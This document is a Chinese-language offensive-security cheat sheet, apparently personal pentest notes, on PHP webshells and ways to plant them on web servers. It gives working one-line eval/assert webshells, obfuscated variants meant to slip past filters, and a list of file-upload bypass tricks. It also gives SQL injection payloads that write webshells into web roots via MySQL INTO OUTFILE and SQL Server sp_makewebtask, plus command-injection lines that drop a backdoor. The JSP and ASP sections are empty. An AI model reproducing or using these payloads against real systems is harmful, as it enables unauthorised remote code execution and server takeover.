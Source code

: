 # Webshell
什么是webshell：一种可执行文件，但是其中包含外部用户输入接口（一般为get或者post等等），并且内部含有可执行函数，将用户输入转换为对应平台代码并且执行或者将用户输入当作命令执行


## PHP WebShell
### （1）默认webshell
首先是kali中默认存在的webshell
`/usr/share/webshells/php` 文件夹中包括php webshell
### （2）一句话webshell
*php4，php5，php7+可以使用eval函数*（eval函数会将输入的字符串当作php代码执行，并且返回执行结果）
`<?php eval($_POST['cmd']); ?>` cmd传入php代码
*php4，php5，php7.2以下可以使用assert函数*（assert函数会将用户输入当作php代码执行）
`<?php assert($_POST['cmd']); ?>` 
*php5使用print函数输出结果不是echo*
### （3）常用webshell
`<?php $a = str_replace(x,"","exxvxxxaxlxx");$a($_POST["cmd"]); ?>`
`<?php $k="e"."va"."l"; $k(${"_PO"."ST"} ['cmd']);?>`
`<?php $lang = (string)key($_POST);$lang($_POST['cmd']); ?>` 动态传参
`<?php  $a = "a"."s"."s"."e"."r"."t";  $a($_POST["xindong"]);  ?>`
**php中执行命令行函数：**
* *system* 函数执行有回显，可将结果显示在页面上
`string system ( string $command [, int &$return_var ] );`   $command为执行的命令，&return_var可选，用来存放命令执行后的状态码
* *passthru* 执行有回显，可将执行结果显示在页面上
`void passthru ( string $command [, int &$return_var ] );`   和system函数类似，$command为执行的命令，&return_var可选，用来存放命令执行后的状态码
* *exec*  函数执行无回显，默认返回最后一行结果
`string exec ( string $command [, array &$output [, int &$return_var ]] );` \$command是要执行的命令 \$output是获得执行命令输出的每一行字符串，$return_var用来保存命令执行的状态码（检测成功或失败）
* *shell_exec* 函数默认无回显，通过 echo 可将执行结果输出到页面
`string shell_exec( string &command);`



## JSP WebShell
**kali webshell**
首先kali中默认存在jsp webshell
`/usr/share/webshells/jsp`
**一句话**


## ASP/ASPX WebShell


# GetShell
## getshell方法总结
### （1）管理员拿shell
* 直接上传webshell获取目标控制
* 如果上传失败，多找模式或者性能设置，可以得到上传类型修改
* 如果没有明显上传路径，尝试有没有权限浏览上一级目录，可以将上传的文件改名，即改为 ../1.php（目录跳跃）
### （2）数据库备份拿shell
* 如果数据库具有备份功能，这时我们就可以将webshell格式先该为允许上传的文件格式如jpg，gif等，然后，我们找到上传后的文件路径，通过数据库备份，将文件备份为脚本格式
### （3）突破上传拿shell
* 一般配合解析漏洞上传
* 本地js验证绕过上传
* 服务器mime绕过上传
* 服务器白名单绕过上传
* 服务器黑名单绕过上传
* 服务器 filepath上传
* 双文件上传
* %00截断上传
### （4）网站配置插马拿shell（慎用，可能网站会奔溃）
* 通过找到网站默认配置，将一句话插入到网站配置中，不过为了能够成功执行插马，建议先下载该网站源码，进行查看源码过滤规则，以防插马失败。
### （5）通过编辑模板拿webshell
* 通过对网站的模板进行编辑写入一句话，然后生成脚本文件拿webshell。
* 通过将木马添加到压缩文件，把名字改为网站模板类型，上传到网站服务器，拿webshell
### （6）[[文件上传漏洞#上传突破|上传]]插件拿shell
* 一般将马与插件绑定在一起，不需要启动，只是知道马在哪就可以了，我们可以把木马添加到安装的插件中上传服务器拿shell
### （7）[[SQL注入漏洞|数据库]]执行拿webshell
* 我们可以通过数据库执行命令导出一句话到网站根目录拿shell，前提要知道网站根目录在哪
* [[SQL注入漏洞#Access数据库注入|access]] 数据库导出 一般需要利用解析漏洞xx.asp;.xml
* [[SQL注入漏洞#SqlServer数据库注入|sqlserver]] 导出
```sql
;exec%20sp_makewebtask%20%20%27c:\inetpub\wwwroot\ms\x1.asp%27,%27select%27%27<%execute(request("cmd"))%>%27%27%27-- 
```
* [[SQL注入漏洞#MySql数据库注入|mysql]]命令导出shell
```sql
Create TABLE study (cmd text NOT NULL);Insert INTO study (cmd) VALUES('<?php eval ($_POST[cmd]) ?>');select cmd from study into outfile 'D:/php/www/htdocs/test/seven.php';Drop TABLE IF EXISTS study;
```
* 如果没有权限执行[[SQL注入漏洞#权限利用|into outfile函数时]]，可以利用日志生成来注入马，前提是能修改日志位置
```sql
use mysql;create table x(packet text) type=MyISAM;insert into x (packet) values('<pre><body ><?php @system($_GET["cmd"]); ?></body></pre>');select x  into outfile 'd:\php\xx.php'
```
*其中mysql5.5之后`type=MyISAM`改为`ENGINE=MyISAM`*
### （8）[[命令注入漏洞#命令注入|命令执行]]拿shell
直接写入webshell到特定位置（一般先写小马）
```php
Echo ^<^?php @eval($_POST['cracer']);?^>^ > c:\1.php
Echo ^<^?php @eval($_POST['cracer']);?^>^ > c:\1.php
^<^%eval request("cracer")%^>^ > c:\1.php
```


